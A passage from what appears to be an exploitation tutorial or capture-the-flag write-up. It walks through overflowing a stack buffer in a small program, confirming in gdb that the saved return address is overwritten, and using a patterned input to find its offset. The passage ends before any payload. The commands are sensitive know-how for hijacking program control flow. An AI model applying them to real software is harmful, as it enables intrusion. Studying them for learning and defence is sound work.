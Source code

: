 `disas` is often a lot of output, and doesn't work without symbols, so I usually use the `x/i` method:

```
(gdb) x/i $rip
=> 0x40127f <main+233>:	ret
```

However you do it, we can see it crashes at `ret`, which is attempting to return from `main()`. What `ret` specifically does is jump to the address on top of the stack. We can see that address with `x/xg $rsp` (eXamine in heX, the Giant (64-bit integer) on top of the stack (rsp)):

```
(gdb) x/xg $rsp
0x7fffffffe1b8:	0x4141414141414141
```

So it's trying to return to 0x41414141414141 (ie, executing code at memory address 0x4141414141414141) and crashing because that is not a valid address! That means we're successfully overwriting the return address and taking control of the program's execution!

### Putting the exploit in a file

At this point, I'm often writing a program to start generating a file, then piping that file into the program. We'll use `echo` for now (note that the `''` in the middle is a visual separator, it doesn't add anything to the file):

```
$ echo -ne 'AAAAAAAAAAAAAA\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' > test.bin
```

```
(gdb) run < test.bin
[...]

Program received signal SIGSEGV, Segmentation fault.
0x000000000040127f in main ()

(gdb) x/xg $rsp
0x7fffffffe1b8:	0x4141414141414141
```

### Finding the return address

Next, let's try and figure out exactly where on the stack the return address is. We can disassemble and do math, or we can bruteforce it a bit:

```
$ echo -ne 'AAAAAAAAAAAAAA\n''BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR' > test.bin
```

```
(gdb) run < test.bin
[...]

Program received signal SIGSEGV, Segmentation fault.
0x000000000040127f in main ()

(gdb) x/xg $rsp
0x7fffffffe1b8:	0x5151515150505050
```
